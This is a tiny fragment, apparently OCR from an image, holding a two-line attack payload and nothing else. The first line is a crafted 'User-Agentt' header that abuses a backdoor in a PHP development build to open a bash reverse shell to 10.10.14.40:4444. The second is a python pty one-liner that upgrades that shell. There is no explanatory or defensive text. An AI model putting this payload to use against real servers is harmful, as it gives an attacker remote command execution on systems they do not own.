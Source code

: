 User-Agentt: zerodiumsystem('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.40/4444 0>&1"');
python3 -c "import pty; pty.spawn('/bin/bash');"
